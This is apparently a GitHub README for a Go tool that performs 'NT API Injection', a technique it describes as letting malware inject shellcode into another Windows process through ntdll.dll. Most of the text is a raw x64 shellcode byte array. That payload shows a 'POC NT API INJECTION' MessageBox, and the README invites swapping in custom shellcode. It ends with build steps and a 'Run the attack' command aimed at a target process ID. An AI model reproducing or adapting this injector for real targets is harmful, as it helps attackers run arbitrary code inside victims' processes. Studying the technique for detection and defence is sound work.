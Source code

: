 # NT API Injection
This is a tecnique that allows a malware to inject shellcode into a target process by using Windows Native API (via ntdll.dll).

In this example, the program injects a shellcode that displays a MessageBox.
If you want to change the shellcode, look for this variable in the source code: 
```
var codeS = []byte{0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,
	0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
	0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,
	0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
	0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
	0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
	0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,
	0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,0x00,0x00,0x00,
	0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
	0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,
	0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,
	0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
	0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
	0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
	0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,
	0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,
	0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
	0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,
	0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x3e,0x48,0x8d,
	0x8d,0x34,0x01,0x00,0x00,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,
	0xd5,0x49,0xc7,0xc1,0x40,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,
	0x0e,0x01,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x23,0x01,0x00,0x00,
	0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,
	0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x50,0x4f,
	0x43,0x20,0x4e,0x54,0x20,0x41,0x50,0x49,0x20,0x49,0x4e,0x4a,
	0x45,0x43,0x54,0x49,0x4f,0x4e,0x00,0x4e,0x54,0x20,0x41,0x50,
	0x49,0x20,0x49,0x4e,0x4a,0x45,0x43,0x54,0x49,0x4f,0x4e,0x00,
	0x75,0x73,0x65,0x72,0x33,0x32,0x2e,0x64,0x6c,0x6c,0x00};
```
And replace the existing bytecode with your custom shellcode.

# Build:
```
GOOS=windows GOARCH=amd64 go build main.go
```
## Run the attack
```
.\main.exe <PID>
```
